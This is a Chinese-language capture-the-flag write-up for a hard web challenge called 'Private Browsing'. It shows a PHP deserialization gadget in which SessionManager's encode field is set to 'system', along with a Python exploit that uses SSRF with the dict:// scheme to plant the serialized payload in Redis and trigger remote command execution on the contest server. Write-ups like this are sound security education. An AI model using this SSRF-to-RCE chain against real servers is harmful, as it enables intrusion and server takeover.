 ### Private Browsing
> 500
> hard
* 這一題是事後才想到的，比賽中是沒有想到的，我就爛 OuOb
```php=
function __destruct()
{
    global $redis;
    if ($this->val !== null) {
        $redis->set($this->sessid, ($this->encode)($this->val));
    }
}
```
* 簡單來說，不能用 `get()` 達到 RCE，因為 redis 拿的是 object 給他的，所以 `__destruct()` 中的 `global $redis` 正好是我們需要的
* 把 `$encode` 指定成 `system`，`$this->val` 就可以給 command 達成 RCE
```php=
...
    function __construct($redis, $sessid, $fallback, $encode = 'serialize', $decode = 'unserialize')
    {
        $this->redis = $redis;
        $this->sessid = $sessid;
        $this->encode = $encode;
        $this->decode = $decode;
        $this->fallback = $fallback;
        $this->val = "ls"; // <- here
    }
...

$a = new SessionManager($redis, "whatever", "whatever", "system"); // <- here
```

#### Solution
```python=
from urllib import response
import requests

def payloadGenerator(command):
    command_len = len(command)
    session = 'O:14:"SessionManager":6:{s:5:"redis";O:5:"Redis":0:{}s:6:"sessid";s:4:"test";s:6:"encode";s:6:"system";s:6:"decode";s:11:"unserialize";s:8:"fallback";s:7:"phpinfo";s:3:"val";s:' + str(command_len) + ':"' + command + '";}'
    session = session.encode("utf-8").hex()
    final_session = ""

    for i in range(0, len(session)+1, 2):
        if session[i:i+2] == "":
            break

        tmp = r"\x" + session[i:i+2]
        final_session += tmp

    return final_session

def RCE(cookie, command):
    requests.get("http://chals1.ais3.org:8763/api.php?action=view&url=dict://redis:6379/set:{}:\"{}\"".format(cookie, payloadGenerator(command)))

    response = requests.get("http://chals1.ais3.org:8763/api.php?action=clear_history", cookies={
        "sess_id": cookie
    })

    for i in response.text.split('\n')[7:]:
        print(i)
```